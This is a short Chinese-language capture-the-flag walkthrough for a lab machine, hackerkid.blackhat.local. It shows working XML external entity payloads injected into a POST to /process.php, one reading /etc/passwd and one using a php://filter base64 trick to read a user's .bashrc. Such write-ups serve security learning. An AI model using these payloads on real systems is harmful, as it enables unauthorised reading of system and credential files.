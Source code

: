 #### 基础利用

将原始报文：
```
POST /process.php HTTP/1.1
Host: hackerkid.blackhat.local
Content-Length: 129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://hackerkid.blackhat.local
Referer: http://hackerkid.blackhat.local/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?><root><name>admin</name><tel>123</tel><email>test</email><password>123456</password></root>

```
中的xml部分：
```
<?xml version="1.0" encoding="UTF-8"?><root><name>admin</name><tel>123</tel><email>test</email><password>123456</password></root>
```
修改为：
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root><name>admin</name><tel>123</tel><email>&test;</email><password>123456</password></root>
```
也就是在其中注入：

```
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>

配合这句中的test，将其中一个参数修改为：&test; 
```

#### base64绕过利用

```
<!DOCTYPE root [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=/home/saket/.bashrc'>]>
```
将得到密文，解码后得到明文

